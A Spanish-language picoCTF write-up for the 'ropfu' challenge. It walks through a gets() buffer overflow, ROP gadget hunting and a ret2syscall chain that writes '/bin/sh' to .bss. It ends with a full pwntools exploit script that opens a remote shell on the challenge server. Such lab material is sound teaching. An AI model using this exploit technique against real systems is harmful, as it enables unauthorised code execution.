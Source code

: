 Bienvenidos al primer ejercicio hard que hago de PicoCTF!

En este caso nos dan un binario y su código:

```c
./vuln
How strong is your ROP-fu? Snatch the shell from my hand, grasshopper!
Hola
```

El binario simplemente registra un input y se cierra.

Vamos a ver como se recibe este input:

```c
  return gets(buf);
```

El programa no limita el tamaño de nuestro input así que este programa es vulnerable a buffer overflow.

Si miramos sus protecciones podemos ver que PIE no está habilitado pero si que hay un canary:

```c
[*] '/home/ub1cu0/Desktop/picoCTF/ropfu/vuln_patched'
    Arch:       i386-32-little
    RELRO:      Partial RELRO
    Stack:      Canary found
    NX:         NX unknown - GNU_STACK missing
    PIE:        No PIE (0x8048000)
    Stack:      Executable
    RWX:        Has RWX segments
    Stripped:   No
```

El binario tiene canary pero en la función vulnerable no parece que se haga ninguna verificación, por lo que no nos afecta en este caso.

Si miramos con el comando `file` podemos ver como el binario está estáticamente enlazado:

```c
file vuln
vuln: ELF 32-bit LSB executable, Intel i386, version 1 (GNU/Linux), statically linked, BuildID[sha1]=232215a502491a549a155b1a790de97f0c433482, for GNU/Linux 3.2.0, not stripped
```

Esto quiere decir que el binario tiene gadgets como `int 0x80` del que hablaré mas adelante que no suelen estar en la libc.

Vamos a intentar encontrar el offset hasta la dirección de retorno:

```c
pwn cyclic 30         
aaaabaaacaaadaaaeaaafaaagaaaha

EIP  0x61616168 ('haaa')

cyclic -l haaa

pwndbg> cyclic -l haaa
Finding cyclic pattern of 4 bytes: b'haaa' (hex: 0x68616161)
Found at offset 28 // Offset
```

Vale, ahora que tenemos el offset podemos mandar el programa a donde queramos a voluntad.

En el código no hay ninguna función interesante para llamar. Como no hay PIE tiene toda la pinta que hay que hacer un `ret2syscall`

Para hacer ret2syscall es muy importante saber si el binario es de 32 o 64 bits. En este caso es de 32 bits, y eso cambia bastante las cosas. En 64 bits se suele usar la instrucción `syscall`, pero en 32 bits no existe como tal. En su lugar, se usa el gadget `int 0x80`, que es el equivalente en 32 bits para invocar una syscall.

Ahora que sabemos que tenemos que utilizar `0x80` como lo usamos? `0x80` y `syscall` simplemente llaman al sistema para hacer algo, dependiendo de lo que le pases por rax pueden hacer varias cosas. Lo que nos interesa es cuando le pasamos `11` por rax, ya que con eso le indicamos que queremos hacer un execve, el cual ejecuta un programa.

Cual sería la estructura de lo que tenemos que montar?

Como execve tiene lo siguiente:

```c
execve("/bin/sh", NULL, NULL)
```

Habría que hacer:

1. Poner en EAX el numero 11, esto sirve para que el “syscall” haga un execve
2. Poner en EBX un **PUNTERO** a `/bin/sh`
3. Poner en ECX un nulo (0x0)
4. Poner en EDX un nulo (0x0)
5. Ir a 0x80 para ejecutar la intrucción

Para esto tenemos que ir buscando gadgets donde hayan `pop EAX`, `pop EBX`...etc...e ir colocando cada cosa en su registro correspondiente. Esto lo podemos buscar con ROPGadget de la siguiente manera:

```c
ROPgadget --binary vuln | grep -w "pop eax"
. . .
0x080b073a : pop eax ; ret
. . .
```

Ahora ya tenemos la dirección a un pop para el primer registro. Vamos a ir apuntando todas las direcciones a los gadgets que nos hacen falta:

```c
INT_0x80      = 0x0804a3c2
POP_EAX       = 0x080b073a
POP_ECX       = 0x08049e29
POP_EDX_EBX   = 0x080583b9
```

Yo he hecho una trampita pequeña, he encontrado un gadget que hace un pop `edx; pop ebx; ret` y lo voy a aprovechar para matar a 2 pájaros de un tiro.

Vale, parece que tenemos todo lo que nos hace falta pero nos falta el `/bin/sh`. Aquí se complica el asunto ya que tenemos que pasarle el puntero a donde esté esa cadena. Para complicar mas las cosas como estamos en 32 bits y, como máximo caben 4 bytes por elemento en el stack y en cada registro, no cabría aunque nos dejara poner a secas el string.

Si pensamos un poco se nos puede ocurrir poner `/bin/sh` en el stack al final de nuestro payload y luego buscarlo con el comando `telescope $rsp 20` y apuntarnos la dirección donde empieza. Suena bien, verdad? Si, pero hay un problema, la maquina remota tiene ASLR activado y esto quiere decir que ese puntero del stack va a cambiar en cada ejecución.

Para superar este obstáculo podemos intentar guardar nuestra cadena en la sección .data o .bss del programa, estas secciones de la memoria no cambian con ASLR. Esto se hace de la siguiente manera

Primera tenemos que encontrar la dirección donde empieza alguna de esas secciones de memoria. En este caso voy a utilizar `.bss` pero podéis utilizar la que queráis.

Si hacemos el siguiente comando podemos ver en que dirección empieza cada sección de la memoria del programa:

```c
readelf -S vuln_patched 

There are 29 section headers, starting at offset 0xace68:

Section Headers:
  [Nr] Name              Type            Addr     Off    Size   ES Flg Lk Inf Al
. . .
 4
  [18] .got.plt          PROGBITS        080e5000 09c000 000044 04  WA  0   0  4
  [19] .data             PROGBITS        080e5060 09c060 000ec0 00  WA  0   0 32
  [20] __libc_subfreeres PROGBITS        080e5f20 09cf20 000024 00  WA  0   0  4
  [21] __libc_IO_vtables PROGBITS        080e5f60 09cf60 000354 00  WA  0   0 32
  [22] __libc_atexit     PROGBITS        080e62b4 09d2b4 000004 00  WA  0   0  4
  [23] .bss              NOBITS          080e62c0 09d2b8 000d1c 00  WA  0   0 32
  [24] __libc_freer[...] NOBITS          080e6fdc 09d2b8 000014 00  WA  0   0  4
. . .
```

La primera columna de direcciones es la que tiene la dirección donde empieza la sección.

Ahora que tenemos la dirección tenemos que conseguir colocar `/bin/sh` ahí. Esto se puede hacer con la siguiente regex:

```c
pwndbg> rop --grep 'mov .* \[edx\], eax'c
```

Este regex busca gadgets que mueven algo a algún sitio, con lo cual como tenemos el valor que queremos y la dirección donde la queremos podemos poner esa información en los registros correspondientes y mover `/bin/sh` a `.bss`. En mi caso he elegido este gadget:

```c
0x80590f2 : mov dword ptr [edx], eax ; ret
```

Esto lo que hace es mover lo que esté en `eax` a `edx`. Entonces tenemos que conseguir poner en `eax` `/bin/sh` y en `edx` la dirección que hemos pillado antes del `.bss`.

Podemos meter lo que queramos en variables con el método de antes de encontrar un gadget `pop` y el registro que queramos pero ahora surge un nuevo problema. Recordemos que cada registro, como estamos en un binario de 32 bits solo puede contener un máximo de 4 bytes y `/bin/sh` ocupa mas que eso ya que cada carácter ocupa 1 byte. Para esto podemos partir en 2 nuestra string y ejecutar 2 veces el gadget mov pero la segunda vez añadiéndole un + 4 para mandarlo 4 bytes por encima de la dirección de la primera iteración y hacer que no se pisen.

```python
PART1 = u32(b"/bin")
PART2 = u32(b"/sh\x00")
```

Con esto tendríamos los datos y el conocimiento necesario para montar el payload:

```python
#!/usr/bin/env python3
from pwn import *

exe = ELF("./vuln_patched")
context.binary   = exe
context.terminal = ['kitty']

gdb_script = '''
b main
continue
'''

def conn():
    if args.LOCAL:
        p = process(exe.path)
        if args.GDB:
            gdb.attach(p, gdbscript=gdb_script)
    else:
        p = remote("saturn.picoctf.net", 55177)
    return p

# Datos
OFFSET        = 28                           # distancia hasta EIP
INT_0x80      = 0x0804a3c2                   # int 0x80
POP_EAX       = 0x080b073a                   # pop eax ; ret
POP_ECX       = 0x08049e29                   # pop ecx ; ret
POP_EDX_EBX   = 0x080583b9                   # pop edx ; pop ebx ; ret
MOV_EDX_EAX   = 0x080590f2                   # mov dword ptr [edx], eax ; ret
BSS_ADDR      = 0x080e62c0                   # sección .bss

# "/bin/sh" en 2 partes
PART1 = u32(b"/bin")
PART2 = u32(b"/sh\x00")

payload = flat({
    OFFSET: [
        # Primera Parte de "/bin/sh" en .bss
        POP_EDX_EBX,   BSS_ADDR,       0x41414141,    # pop edx ; pop ebx ; ret
        POP_EAX,       PART1,                          # pop eax ; ret
        MOV_EDX_EAX,                                    # mov dword ptr [edx], eax ; ret

        # Segunda Parte de "/bin/sh" en .bss
        POP_EDX_EBX,   BSS_ADDR + 4,   0x41414141,    # pop edx ; pop ebx ; ret
        POP_EAX,       PART2,                          # pop eax ; ret
        MOV_EDX_EAX,                                    # mov dword ptr [edx], eax ; ret

        # execve
        POP_EAX,       0xb,                            # pop eax ; ret
        POP_ECX,       0x0,                            # pop ecx ; ret
        POP_EDX_EBX,   0x0,            BSS_ADDR,       # pop edx ; pop ebx ; ret
        INT_0x80                                        # int 0x80
    ]
})


def main():
    p = conn()
    log.info(f'Payload length: {len(payload)} bytes')
    p.recvuntil(b'!')
    p.sendline(payload)
    p.interactive()

if __name__ == "__main__":
    main()
```
